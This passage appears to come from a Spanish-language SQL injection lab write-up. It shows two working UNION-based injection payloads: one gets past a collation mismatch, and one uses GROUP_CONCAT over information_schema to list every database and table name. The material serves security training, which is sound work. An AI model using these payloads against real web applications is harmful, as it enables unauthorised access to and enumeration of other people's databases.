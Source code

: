 Inyección →
```
999' UNION select null, information_Schema.tables.table_schema COLLATE utf8_general_ci, null, null, null, null, null, null, null FROM information_Schema.columns, information_Schema.tables WHERE information_Schema.tables.table_name = information_Schema.columns.table_name;#
```

![](capturas/sql-injection-lab2-5.png)
Al poner esta consulta, vemos que ya no nos da error de la mezcla de collate. Hemos accedido a la página web superando el problema de mezcla de collation:


Hacemos logout y ahora montamos una consulta con GROUP_CONCAT para que nos de toda la información de la BD: 
Inyección →
```
999' UNION select null, GROUP_CONCAT(information_Schema.tables.table_schema, '-' ,information_Schema.columns.table_name) COLLATE utf8_general_ci, null, null, null, null, null, null, null FROM information_Schema.columns, information_Schema.tables WHERE information_Schema.tables.table_name = information_Schema.columns.table_name;#
```
![](capturas/sql-injection-lab2-6.png)
